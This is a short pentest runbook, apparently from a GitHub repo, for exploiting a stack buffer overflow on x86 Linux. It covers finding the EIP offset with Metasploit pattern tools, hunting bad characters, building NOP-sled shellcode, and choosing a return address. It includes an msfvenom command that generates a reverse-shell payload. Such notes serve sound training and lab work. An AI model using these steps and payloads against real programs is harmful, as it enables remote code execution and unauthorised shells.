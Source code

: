 # buffer overflow x86 linux

## Step 1: Take control EIP

- Get rough estimate offset (e.g. 1000)
- Create pattern.
```shell
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1200
```

- Calculate exact offset.
```shell
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x69423569
```

- Verify offset by overwriting EIP.

## Step 2: Identify bad chars

- Start inspecting bad characters "\x00\x01\x02...\xff"
- Use the following command to inspect the stack.

```shell
x/1000xb $rsp
```

- Iterate the process. E.g. remove "\x00\x09", update input, and rerun program.

## Step 3: Generate shellcode

Consider
- Architecture (e.g. `x86`)
- Platform (e.g. linux)
- Bad characters

Generate shellcode using `msfvenom`.
```shell
msfvenom -p "linux/x86/shell_reverse_tcp" LHOST=127.0.0.1 LPORT=4444 --format "c" --bad-chars "\x00\x09\x0a\x20"
```

- Update program input. Add `\x90` chars are NOP instructions.

- Example stack is given below.

```shell
...
0xffffd6b4:     0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0xffffd6bc:     0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0xffffd6c4:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd6cc:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
...
0xffffd72c:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd734:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd73c:     0xbf    0x0c    0xf4    0xbb    0x7c    0xd9    0xcb    0xd9
0xffffd744:     0x74    0x24    0xf4    0x5a    0x31    0xc9    0xb1    0x12
...
```

## Step 4: Identify return address

- Get a memory address where **only** NOPs are located to tell the EIP to jump to it.
- This memory address must **not** contain any of the bad characters we found earlier.
- Pass the address to the input **backwards** in case of little Endian

Finally, update the EIP overwrite with the memory address found above.

## Python
- A Python script for local buffer overflow can be at [GitHub](https://github.com/a3cipher/runbook/blob/main/ptes3-exploitation/binary-exploitation/bo-x86-linux-local.py).
